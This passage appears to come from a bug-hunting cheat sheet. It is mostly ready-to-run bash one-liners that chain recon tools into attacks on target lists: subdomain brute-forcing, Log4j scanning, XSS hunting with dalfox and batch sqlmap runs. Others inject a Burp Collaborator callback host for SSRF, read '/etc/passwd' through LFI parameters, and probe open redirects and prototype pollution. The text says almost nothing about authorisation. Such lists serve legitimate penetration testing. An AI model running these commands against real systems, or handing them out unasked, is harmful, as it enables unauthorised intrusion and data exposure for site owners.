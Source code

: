 Explanation – Bruteforce subdomains using ffuf tool.

```bash
ffuf -u [https://FUZZ.domain.com](https://fuzz.domain.com/) -w /path/to/wordlist -v | grep "| URL |" | awk '{print $4}'
```

## 16. Log4J Scan on list of domains

Explanation – Takes live domains as input and scans for log4j vulnerabilities.

```bash
cat alive.txt | xargs -I@ sh -c 'python3 /path/to/log4j-scan.py -u "@"
```

## 17. Hunt XSS

```bash
cat targets.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @ cat targets.txt | getJS | httpx --match-regex "addEventListener\\((?:'|\\")message(?:'|\\")"
```

## 18. Hunt SQLi

```bash
httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```

## 19. Hunt SSRF

```bash
findomain -t [http://target.com](http://target.com/) -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace [http://YOUR.burpcollaborator.net](http://your.burpcollaborator.net/)
```

## 20. Hunt LFI

```bash
gau [http://vuln.target.com](http://vuln.target.com/) | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

## 21. Hunt Open Redirect

```bash
gau [http://vuln.target.com](http://vuln.target.com/) | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

## 22. Hunt Prototype Pollution

```bash
subfinder -d [http://target.com](http://target.com/) | httpx -silent | sed 's/$/\\/?\*\proto\\*\[testparam\]=exploit\\//' | page-fetch -j 'window.testparam=="exploit"?"\[VULN\]":"\[NOT\]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"
```
